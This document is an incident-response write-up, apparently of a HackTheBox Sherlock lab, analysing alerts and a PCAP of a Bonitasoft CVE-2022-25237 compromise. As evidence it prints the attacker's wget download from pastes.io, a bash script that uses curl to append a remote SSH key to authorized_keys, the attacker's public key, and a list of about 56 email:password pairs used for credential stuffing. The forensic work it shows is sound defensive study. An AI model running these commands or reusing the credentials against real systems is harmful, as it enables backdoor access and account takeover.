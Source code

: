 ```yaml
---
tags:
  - htb
  - sherlock
  - soc
  - pcap
  - siem
  - alerts
  - json
  - wireshark
  - jq
  - forensic
  - exploit
aliases:
  - Meerkat
date: 2024-06-12
---
```


### Scenario
As a fast-growing startup, Forela has been utilising a business management platform. Unfortunately, our documentation is scarce, and our administrators aren't the most security aware. As our new security provider we'd like you to have a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised.

### Artifacts
| Artifact            | MD5 Hash                         | Password    |
| ------------------- | -------------------------------- | ----------- |
| meerkat.zip         | 9b8369a0fcd7f95889c28da597951ad3 | hacktheblue |
| meerkat-alerts.json | f9642326d526c4f5159470b1c5d89b4a | n/a         |
| meerkat.pcap        | 7ac62b1e835e0850104f1fc2ecf1f002 | n/a         |

### Tools Used
+ `jq` JSON parser - Analyzing the JSON file.
+ WireShark - Analyzing the PCAP file.

### Forensic Analysis

**Using `jq` I quickly searched for alerts with severity level 1.**
```json
$ cat meerkat-alerts.json| jq '.[] | select(.alert.severity==1)' | less
<--snip-->
{
  "ts": "2023-01-19T15:31:31.042Z",
  "event_type": "alert",
  "src_ip": "156.146.62.213",
  "src_port": 53196,
  "dest_ip": "172.31.6.44",
  "dest_port": 8080,
  "vlan": null,
  "proto": "TCP",
  "app_proto": "http",
  "alert": {
    "severity": 1,
    "signature": "ET WEB_SPECIFIC_APPS Bonitasoft Default User Login Attempt M1 (Possible Staging for CVE-2022-25237)",
    "category": "Attempted Administrator Privilege Gain",
    "action": "allowed",
    "signature_id": 2036815,
    "gid": 1,
    "rev": 1,
    "metadata": {
      "signature_severity": [
        "Minor"
      ],
      "former_category": [
        "WEB_SPECIFIC_APPS"
      ],
      "attack_target": [
        "Server"
      ],
      "deployment": [
        "SSLDecrypt",
        "Perimeter"
      ],
      "affected_product": null,
      "created_at": [
        "2022_06_03"
      ],
      "performance_impact": [
        "Low"
      ],
      "updated_at": [
        "2022_06_03"
      ],
      "malware_family": null,
      "tag": null,
      "cve": [
        "CVE_2022_25237"
      ]
    }
  },
  "flow_id": 1652763046938834,
  "pcap_cnt": 2168,
  "tx_id": 0,
  "icmp_code": null,
  "icmp_type": null,
  "tunnel": null,
  "community_id": "1:0XAwrtog1jdopmX+yd1WRDEzMAc="
}
```

Looks like a TA was brute forcing the default credentials for Bonitasoft to exploit the CVE-2022-25237. I confirmed the credential stuffing attack by analyzing the PCAP file.

**PCAP Analysis Using WireShark**
![[Pasted image 20240612174728.png]]

Analyzing the PCAP file it was confirmed that the TA successfully gained access to an account with the credential `seb.broom@forela.co.uk:g0vernm3nt`. And then gained privileged access to the Web Application's REST API by exploiting CVE-2022-25237. After getting privileged access to the Bonita web service the TA uploaded a malicious API extension to get command execution on the web application server.
![[Pasted image 20240612175559.png]]

The TA successfully gained command execution on the server.
![[Pasted image 20240612181452.png]]
![[Pasted image 20240612181529.png]]


**CVE-2022-25237**
According to [NIST](https://nvd.nist.gov/vuln/detail/CVE-2022-25237), *Bonita Web 2021.2 is affected by a authentication/authorization bypass vulnerability due to an overly broad exclude pattern used in the RestAPIAuthorizationFilter. By appending ;i18ntranslation or /../i18ntranslation/ to the end of a URL, users with no privileges can access privileged API endpoints. This can lead to remote code execution by abusing the privileged API actions.*

HTTP Object Extraction:
![[Pasted image 20240612180604.png]]

After discovering this incident I extracted all the HTTP TCP stream objects from the PCAP file and found the usernames and passwords combination list used in this security incident. 
```csv
user,password
Clerc.Killich%40forela.co.uk,vYdwoVhGIwJ
Lauren.Pirozzi%40forela.co.uk,wsp0Uy
Merna.Rammell%40forela.co.uk,u7pWoF36fn
Gianina.Tampling%40forela.co.uk,maUIffqQl
Konstance.Domaschke%40forela.co.uk,6XLZjvD
Vida.Murty%40forela.co.uk,4ulecG
Elka.Cavet%40forela.co.uk,n1aSdc
Noam.Harvett%40forela.co.uk,VDt8bh
Norbie.Bartolini%40forela.co.uk,GV2zlop
Cariotta.Whife%40forela.co.uk,x3hoU0
Mella.Amsberger%40forela.co.uk,4nIYM5WqN
Cyndy.Element%40forela.co.uk,ybWxct
Imelda.Braben%40forela.co.uk,dC7bjGLYB
Marven.Samuel%40forela.co.uk,LPU0qQnt108
Osborne.Humpatch%40forela.co.uk,OJ4WHcI4D
Talya.Sterman%40forela.co.uk,3gCERZ2JMh
Drusilla.Nice%40forela.co.uk,l35Euh0T3Am
Tobiah.Horstead%40forela.co.uk,fp0OQl
Kayley.Northway%40forela.co.uk,s9MC7mkdVU
Adora.Mersh%40forela.co.uk,85Hh8JZkJR6
Guss.Botten%40forela.co.uk,sVMRgGmv0sE
Cordelie.Rostron%40forela.co.uk,mAtdcJh
Ellerey.Bierling%40forela.co.uk,Nva0nKTz
Berny.Ferrarin%40forela.co.uk,lPCO6Z
Nefen.Heffernon%40forela.co.uk,VR0ZA8
Skipton.Pickerill%40forela.co.uk,lcsui1Nu
Nola.Crichmer%40forela.co.uk,QGa58W3L
Sharon.Claus%40forela.co.uk,3X4d06I
Bernelle.Draycott%40forela.co.uk,MmxlUAWe0oW
Samaria.Percifull%40forela.co.uk,CUgc3hzHw5g
Puff.Yapp%40forela.co.uk,M08Aae
Cynthia.Hatto%40forela.co.uk,z0NXI6
seb.broom%40forela.co.uk,g0vernm3nt
Alexi.Siman%40forela.co.uk,iUS11pX
Pete.Panons%40forela.co.uk,BKdkGTB
Rakel.Cawley%40forela.co.uk,h4gW3YLwnW9t
Merl.Lavalde%40forela.co.uk,BgfiOVXNLBc
Antoinette.Vittel%40forela.co.uk,bGtHL8cg
Stanleigh.Tuckwell%40forela.co.uk,VQCk8TGn3
Denny.Gepson%40forela.co.uk,q2JqCSXk69
Aline.Rivallant%40forela.co.uk,gFixyf1nGgf
Jordain.Eykel%40forela.co.uk,rnMXBNdNW0
Gypsy.Henric%40forela.co.uk,lLPqVgmHs5F
Adrea.Shervil%40forela.co.uk,7YoFhtUq
Jenilee.Pressman%40forela.co.uk,3eYwLOKhQEcl
Fredrick.Gerraty%40forela.co.uk,W1By0HUByDHO
Ebony.Oleszcuk%40forela.co.uk,uAWnyfKOjQM
Garrard.Colisbe%40forela.co.uk,jMi9iP
Farleigh.Schouthede%40forela.co.uk,JzI6Dvhy
Ahmed.Monteaux%40forela.co.uk,6uskrtw8U
Griffith.Lumm%40forela.co.uk,QPepd0M8wBK
Winston.Conville%40forela.co.uk,cEmh5W2Vh
Pat.Kloisner%40forela.co.uk,N8ZwVMzF6
Teresita.Benford%40forela.co.uk,uvYjtQzX
Mathian.Skidmore%40forela.co.uk,TQSNp6XrK
Gerri.Cordy%40forela.co.uk,w15pvWGTK
```

I also found an interesting file named `bx5gcr0et8`.
```json
{"p":"0","c":"1","cmd":"wget https://pastes.io/raw/bx5gcr0et8","out":"--2023-01-19 15:38:52--  https://pastes.io/raw/bx5gcr0et8\nResolving pastes.io (pastes.io)... 66.29.132.145\nConnecting to pastes.io (pastes.io)|66.29.132.145|:443... connected.\nHTTP request sent, awaiting response... 200 OK\nLength: 113 [text/plain]\nSaving to: \u2018bx5gcr0et8\u2019\n\n     0K                                                       100% 57.8M=0s\n\n2023-01-19 15:38:53 (57.8 MB/s) - \u2018bx5gcr0et8\u2019 saved [113/113]\n\n","currentDate":"2023-01-19"}
```

A command was issued to download the file from `pastes.io`.
![[Pasted image 20240612181638.png]]

And then another command was issued to run the `bx5gcr0et8` file which was a bash script.
![[Pasted image 20240612181813.png]]

The contents of the bash script `bx5gcr0et8`:
```bash
**#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart**
```

A persistence technique identified by MITRE with a technique ID [T1098.004](https://attack.mitre.org/techniques/T1098/004/). Basically, the adversary used a public key and inserted in into the `/home/ubuntu/.ssh/authorized_keys` file. In this technique the TA can also set the derivative `PubkeyAuthentication` set to `yes` in the `/etc/ssh/sshd_config` file. And, also can modify the `sshd_config` file further and set the `RSAAuthentication` to the value `yes`, if the public key algorithm is RSA based.

The Public Key used by the TA:
```text
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCgruRMq3DMroGXrcPeeuEqQq3iS/sAL3gryt+nUqbBA/M+KG4ElCvJS4gP2os1b8FMk3ZwvrVTdpEKW6wdGqPl2wxznBjOBstx6OF2yp9RIOb3c/ezgs9zvnaO07YC8Sm4nkkXHgkabqcM7rHEY4Lay0LWF9UbxueSAHIJgQ2ADbKSnlg0gMnJTNRwKbqesk0ZcG3b6icj6nkKykezBLvWc7z4mkSm28ZVTa15W3HUWSEWRbGgJ6eMBdi7WnWXZ92SYDq0XUBV2Sx2gjoDGHwcd6I0q9BU52wWYo3L3LaPEoTcLuA+hnn82086oUzJfmEUtWGlPAXfJBN7vRIMSvsN
```


### Summary
The threat actors used credential stuffing attack against the Bonita Service and escalated their privileges in the web application by exploiting CVE-2022-25237. After that to get remote code execution on the server the threat actors uploaded a malicious extension file which gave them command injection ability. Then, they used this ability to get information of the users and added a SSH backdoor to the `ubuntu` user account for persistence.